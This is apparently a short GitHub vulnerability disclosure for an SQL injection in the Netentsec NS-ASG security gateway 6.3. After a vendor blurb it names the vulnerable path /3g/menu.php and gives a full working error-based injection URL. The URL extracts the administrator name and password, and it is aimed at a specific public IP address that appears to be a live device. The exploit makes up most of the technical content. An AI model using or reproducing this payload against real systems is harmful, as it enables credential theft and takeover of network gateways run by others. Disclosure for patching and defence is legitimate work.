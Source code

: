 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ： /3g/menu.php


https://1.85.53.53/3g/menu.php?uid=1%20and%20extractvalue(0x1,%20concat(0x1,%20(select%20concat(adminname,%200x7e,%20passwd)%20from%20Admin%20limit%201)))


<img width="721" alt="图片" src="https://github.com/hundanchen69/cve/assets/124319989/7fb84a3b-854f-4742-b571-dde58e3b635b">
